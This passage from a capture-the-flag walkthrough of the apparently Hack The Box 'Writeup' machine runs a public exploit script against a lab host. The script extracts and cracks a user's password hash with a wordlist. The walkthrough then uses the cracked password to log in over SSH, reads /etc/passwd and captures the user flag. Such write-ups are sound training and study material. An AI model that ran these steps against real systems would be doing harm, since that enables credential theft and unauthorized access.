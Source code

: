 ```console
$ python ./46635.py --url http://10.10.10.138/writeup/ --wordlist /usr/share/wordlists/rockyou.txt --crack

  [+] Salt for password found: 5a599ef579066807
  [+] Username found: jkr
  [+] Email found: jkr@writeup.htb
  [+] Password found: 62def4866937f08cc13bab43bb14e6f7
  [+] Password cracked: raykayjay9

```

The exploit takes a while to run since it is more of a bruteforcing method coupled with the __`sleep()`__ function but at least, it worked. It revealed a credential pair for the user, __`jkr`__.

---

## PART 4 : GENERATE A USER SHELL

```console
$ ssh -l jkr 10.10.10.138
$ jkr@10.10.10.138's password: raykayjay9

jkr@writeup:~$ 

```

Enumerating the system:

```console
jkr@writeup:~$ uname -mnor

  writeup 4.9.0-8-amd64 x86_64 GNU/Linux

jkr@writeup:~$ cat /etc/passwd | grep -e "sh$"

  root:x:0:0:root:/root:/bin/bash
  jkr:x:1000:1000:jkr,,,:/home/jkr:/bin/bash

jkr@writeup:~$ ls -lah ~

  drwxr-xr-x 2 jkr  jkr  4.0K Oct 13 10:28 .
  drwxr-xr-x 3 root root 4.0K Apr 19 04:14 ..
  lrwxrwxrwx 1 root root    9 Apr 19 06:42 .bash_history -> /dev/null
  -rw-r--r-- 1 jkr  jkr   220 Apr 19 04:14 .bash_logout
  -rw-r--r-- 1 jkr  jkr  3.5K Apr 19 04:14 .bashrc
  -rw-r--r-- 1 jkr  jkr   675 Apr 19 04:14 .profile
  -r--r--r-- 1 root root   33 Apr 19 08:43 user.txt

jkr@writeup:~$ cat ~/user.txt

  d4e4........................f978

```

---